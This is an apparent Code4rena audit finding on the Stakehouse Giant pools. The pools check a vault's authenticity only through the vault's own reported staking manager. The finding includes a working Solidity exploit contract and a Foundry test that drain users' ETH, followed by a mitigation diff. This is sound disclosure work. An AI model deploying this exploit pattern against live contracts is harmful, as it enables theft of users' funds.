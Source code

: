## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- H-17

# [Giant pools can be drained due to weak vault authenticity check](https://github.com/code-423n4/2022-11-stakehouse-findings/issues/251) 

# Lines of code

https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/GiantSavETHVaultPool.sol#L50
https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/GiantMevAndFeesPool.sol#L44


# Vulnerability details

## Impact
An attacker can withdraw all ETH staked by users in a Giant pool. Both `GiantSavETHVaultPool` and `GiantMevAndFeesPool` are affected.
## Proof of Concept
The `batchDepositETHForStaking` function in the Giant pools check whether a provided vault is authentic by validating its liquid staking manager contract and sends funds to the vault when the check passes ([GiantSavETHVaultPool.sol#L48-L58](https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/GiantSavETHVaultPool.sol#L48-L58)):
```solidity
SavETHVault savETHPool = SavETHVault(_savETHVaults[i]);
require(
    liquidStakingDerivativeFactory.isLiquidStakingManager(address(savETHPool.liquidStakingManager())),
    "Invalid liquid staking manager"
);

// Deposit ETH for staking of BLS key
savETHPool.batchDepositETHForStaking{ value: transactionAmount }(
    _blsPublicKeys[i],
    _stakeAmounts[i]
);
```

An attacker can pass an exploit contract as a vault. The exploit contract will implement `liquidStakingManager` that will return a valid staking manager contract address to trick a Giant pool into sending ETH to the exploit contract:
```solidity
// test/foundry/GiantPools.t.sol
contract GiantPoolExploit {
    address immutable owner = msg.sender;
    address validStakingManager;

    constructor(address validStakingManager_) {
        validStakingManager = validStakingManager_;
    }

    function liquidStakingManager() public view returns (address) {
        return validStakingManager;
    }

    function batchDepositETHForStaking(bytes[] calldata /*_blsPublicKeyOfKnots*/, uint256[] calldata /*_amounts*/) external payable {
        payable(owner).transfer(address(this).balance);
    }
}

function testPoolDraining_AUDIT() public {
    // Register BLS key
    address nodeRunner = accountOne; vm.deal(nodeRunner, 12 ether);
    registerSingleBLSPubKey(nodeRunner, blsPubKeyOne, accountFour);

    // Set up users and ETH
    address savETHUser = accountThree; vm.deal(savETHUser, 24 ether);

    address attacker = address(0x1337);
    vm.label(attacker, "attacker");
    vm.deal(attacker, 1 ether);

    // User deposits ETH into Giant savETH
    vm.prank(savETHUser);
    giantSavETHPool.depositETH{value: 24 ether}(24 ether);
    assertEq(giantSavETHPool.lpTokenETH().balanceOf(savETHUser), 24 ether);
    assertEq(address(giantSavETHPool).balance, 24 ether);

    // Attacker deploys an exploit.
    vm.startPrank(attacker);
    GiantPoolExploit exploit = new GiantPoolExploit(address(manager));
    vm.stopPrank();

    // Attacker calls `batchDepositETHForStaking` to deposit ETH to their exploit contract.
    bytes[][] memory blsKeysForVaults = new bytes[][](1);
    blsKeysForVaults[0] = getBytesArrayFromBytes(blsPubKeyOne);

    uint256[][] memory stakeAmountsForVaults = new uint256[][](1);
    stakeAmountsForVaults[0] = getUint256ArrayFromValues(24 ether);

    giantSavETHPool.batchDepositETHForStaking(
        getAddressArrayFromValues(address(exploit)),
        getUint256ArrayFromValues(24 ether),
        blsKeysForVaults,
        stakeAmountsForVaults
    );

    // Vault got nothing.
    assertEq(address(manager.savETHVault()).balance, 0 ether);
    // Attacker has stolen user's deposit.
    assertEq(attacker.balance, 25 ether);
}
```
## Tools Used
Manual review
## Recommended Mitigation Steps
Consider taking a list of `LiquidStakingManager` addresses instead of vault addresses:
```diff
--- a/contracts/liquid-staking/GiantSavETHVaultPool.sol
+++ b/contracts/liquid-staking/GiantSavETHVaultPool.sol
@@ -27,12 +28,12 @@ contract GiantSavETHVaultPool is StakehouseAPI, GiantPoolBase {
     /// @param _blsPublicKeys For every savETH vault, the list of BLS keys of LSDN validators receiving funding
     /// @param _stakeAmounts For every savETH vault, the amount of ETH each BLS key will receive in funding
     function batchDepositETHForStaking(
-        address[] calldata _savETHVaults,
+        address[] calldata _liquidStakingManagers,
         uint256[] calldata _ETHTransactionAmounts,
         bytes[][] calldata _blsPublicKeys,
         uint256[][] calldata _stakeAmounts
     ) public {
-        uint256 numOfSavETHVaults = _savETHVaults.length;
+        uint256 numOfSavETHVaults = _liquidStakingManagers.length;
         require(numOfSavETHVaults > 0, "Empty arrays");
         require(numOfSavETHVaults == _ETHTransactionAmounts.length, "Inconsistent array lengths");
         require(numOfSavETHVaults == _blsPublicKeys.length, "Inconsistent array lengths");
@@ -40,16 +41,18 @@ contract GiantSavETHVaultPool is StakehouseAPI, GiantPoolBase {

         // For every vault specified, supply ETH for at least 1 BLS public key of a LSDN validator
         for (uint256 i; i < numOfSavETHVaults; ++i) {
+            require(
+                liquidStakingDerivativeFactory.isLiquidStakingManager(_liquidStakingManagers[i]),
+                "Invalid liquid staking manager"
+            );
+
             uint256 transactionAmount = _ETHTransactionAmounts[i];

             // As ETH is being deployed to a savETH pool vault, it is no longer idle
             idleETH -= transactionAmount;

-            SavETHVault savETHPool = SavETHVault(_savETHVaults[i]);
-            require(
-                liquidStakingDerivativeFactory.isLiquidStakingManager(address(savETHPool.liquidStakingManager())),
-                "Invalid liquid staking manager"
-            );
+            LiquidStakingManager liquidStakingManager = LiquidStakingManager(payable(_liquidStakingManagers[i]));
+            SavETHVault savETHPool = liquidStakingManager.savETHVault();

             // Deposit ETH for staking of BLS key
             savETHPool.batchDepositETHForStaking{ value: transactionAmount }(
```